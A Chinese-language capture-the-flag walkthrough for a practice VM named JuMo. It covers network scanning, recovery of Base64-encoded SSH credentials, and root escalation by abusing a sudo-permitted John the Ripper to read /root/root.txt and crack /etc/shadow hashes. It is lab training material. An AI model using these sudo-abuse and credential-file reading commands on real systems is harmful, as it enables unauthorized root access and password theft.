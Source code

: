 # 1. 简介

- 靶机名称: JuMo (未发布，内部测试靶机，可能后续发布于 HackMyVm)
- 难度: 低 (Low)
- 目标 IP: 192.168.205.182 (通过 arp-scan 发现)
- 攻击机 IP: 192.168.205.128
- 目标: 获取目标系统的 root 权限并找到 flag。

# 2. 信息收集 (Enumeration)

## 2.1. 主机发现

首先，使用 arp-scan 在本地网络中发现目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:64:60:b9, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
# ... (其他输出) ...
192.168.205.182 08:00:27:ff:bf:ce       PCS Systemtechnik GmbH #<-- 目标主机
# ... (其他输出) ...
Ending arp-scan 1.10.0: 256 hosts scanned in 2.033 seconds (125.92 hosts/sec). 4 responded
```

确认目标 IP 为 192.168.205.182。

## 2.2. 端口扫描

使用 nmap 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -p- 192.168.205.182
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 08:46 CST
Nmap scan report for 192.168.205.182
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     #<-- SSH 服务开放
80/tcp open  http    #<-- HTTP 服务开放
MAC Address: 08:00:27:FF:BF:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

扫描结果显示目标开放了 22 (SSH) 和 80 (HTTP) 端口。

# 3. 获取初始访问权限 (Initial Foothold)

## 3.1. Web 服务探测

访问目标主机的 80 端口（ http://192.168.205.182 ）。

![image-20250411084817446](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411084824566.png)

这个提示我们在 hackmyvm 平台上查找一个名为 check 的用户。

## 3.2. 信息挖掘

在 HackMyVm 网站上搜索用户 check。

![image-20250411085044849](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085044939.png)

找到了该用户的个人资料，其中包含一个外部链接。访问该链接：

![image-20250411085314126](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085314150.png)

页面上有一串 Base64 编码的字符串 d2VsY29tZTpqdW1v。对其进行解码：

```bash
┌──(kali㉿kali)-[~/test]
└─$ echo 'd2VsY29tZTpqdW1v' | base64 -d
welcome:jumo
```

解码后得到 welcome:jumo，这很可能是一对 SSH 登录凭据（用户名:密码）。

## 3.3. SSH 登录

使用获取到的凭据尝试 SSH 登录：

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh welcome@192.168.205.182
# ...(SSH 连接确认)...
Password: # 输入密码 jumo
Linux JuMo 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
# ... (欢迎信息) ...
welcome@JuMo:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 welcome 用户身份登录系统。

# 4. 权限提升 (Privilege Escalation)

## 4.1. Sudo 权限检查

检查 welcome 用户拥有的 sudo 权限：

```bash
welcome@JuMo:~$ sudo -l
Matching Defaults entries for welcome on JuMo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on JuMo:
    (ALL : ALL) NOPASSWD: /usr/sbin/john   #<-- 可以免密以 root 权限执行 john
```

输出显示 welcome 用户可以无需密码 (NOPASSWD) 以任何用户 (ALL:ALL) 的身份执行 /usr/sbin/john 命令。john (John the Ripper) 是一个密码破解工具。

## 4.2. 利用 Sudo 权限

由于可以以 root 身份执行 john，并且 /root 目录下的文件通常只有 root 用户可读，我们可以尝试利用 john 读取 /root 目录下的文件。

### 方法一：直接读取可能的 Flag 文件 (我的方法)

我已知 /root/root.txt 包含了 flag。虽然 john 的 --wordlist 选项通常用于指定密码字典，但配合 --stdout 选项，john 会将 wordlist 的内容（或生成的候选密码）打印到标准输出。利用 sudo 权限，这可以用来读取 root 权限才能访问的文件内容。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john --wordlist=/root/root.txt --stdout
Press 'q' or Ctrl-C to abort, almost any other key for status
flag{521ca933d6e159a50c2c04e7daa930f6}  #<-- 读取并输出了 /root/root.txt 的内容
1p 0:00:00:00 100% 100.0p/s flag{521ca933d6e159a50c2c04e7daa930f6}
```

此命令成功读取了 /root/root.txt 文件，内容即为 flag。

### 方法二：破解 Root 密码 (ta0神的方法)

更常见的利用 john 进行提权的方式是破解 /etc/shadow 文件中的密码哈希。这里假设 /root/root.txt 文件恰好包含了 root 用户的密码（或者可以直接作为字典）。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john /etc/shadow --wordlist=/root/root.txt
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 100% 0g/s 100.0p/s 200.0c/s 200.0C/s flag{521ca933d6e159a50c2c04e7daa930f6} #<-- 破解出的 root 密码
Session completed
```

john 成功利用 /root/root.txt 的内容（即 flag）作为字典，破解了 /etc/shadow 文件中的 root 用户密码哈希。破解得到的 root 密码正是 flag{521ca933d6e159a50c2c04e7daa930f6}。

## 4.3. 获取 Root 权限

根据群主提示我们可知root密码为root flag

```bash
welcome@JuMo:~$ su -
Password: # 输入 521ca933d6e159a50c2c04e7daa930f6
root@JuMo:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JuMo:~# cat /root/root.txt
flag{521ca933d6e159a50c2c04e7daa930f6}
```

成功获取 root 权限。最终的 flag 存储在 /root/root.txt 中。

# 5. 总结

本次渗透测试通过以下步骤完成：

1. 信息收集: 使用 arp-scan 和 nmap 发现目标主机及其开放的 SSH 和 HTTP 服务。
2. 初始访问: 分析网页源代码，发现指向 HackMyVm 用户 check 的线索，进而找到其外部链接中的 Base64 编码凭据，成功通过 SSH 登录 welcome 用户。
3. 权限提升: 发现 welcome 用户可通过 sudo 免密执行 john 命令。利用此权限，通过 john --wordlist=/root/root.txt --stdout 直接读取了 /root/root.txt 中的 flag，或者通过 john /etc/shadow --wordlist=/root/root.txt 破解出 root 密码（密码恰好是 flag），最终使用 su 命令切换到 root 用户。

靶机设计巧妙，利用了信息泄露和 sudo 配置不当的漏洞，难度符合 Low 级别。